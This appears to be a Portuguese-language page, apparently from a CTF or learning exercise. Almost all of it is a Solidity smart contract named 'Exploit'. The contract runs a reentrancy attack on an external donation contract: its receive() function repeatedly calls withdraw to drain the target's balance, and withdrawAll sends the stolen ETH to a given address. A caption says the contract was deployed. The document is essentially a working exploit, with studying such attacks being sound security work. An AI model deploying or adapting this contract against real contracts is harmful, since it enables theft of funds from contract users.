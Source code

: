 
```
/ SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.8.2 <0.9.0;


interface IExternalContract {
    function donate(address _to) external payable;
    function balanceOf(address _who) external view returns (uint256 balance);
    function withdraw(uint256 _amount) external;
}

  
contract Exploit {
    IExternalContract private immutable targetContract;
    constructor(address _targetContract) {
        targetContract = IExternalContract(_targetContract);
    }

    function exploitDonate() public payable {
        require(msg.value > 0, "Precisa enviar ETH");
        targetContract.donate{value: msg.value}(address(this));
    }

  

    / Função withdraw que requisita saque de valor especificado
    function exploitWithdraw() public payable {
        targetContract.withdraw(msg.value);
    }

  

    / Função para sacar todo o saldo do contrato
    function withdrawAll(address payable _to) public {
        require(address(this).balance > 0, "Sem saldo para sacar");
        _to.transfer(address(this).balance);
    }

  

    / Recebe ETH e tenta realizar um saque do contrato externo
    receive() external payable {
	        if (address(targetContract).balance >= msg.value) targetContract.withdraw(msg.value);
    }

}
```

A imagem abaixo demonstra o contrato criado já na blockchain.

![](../attachment/026a4e99ece2fc20f5a9c051a1f7a283.png)
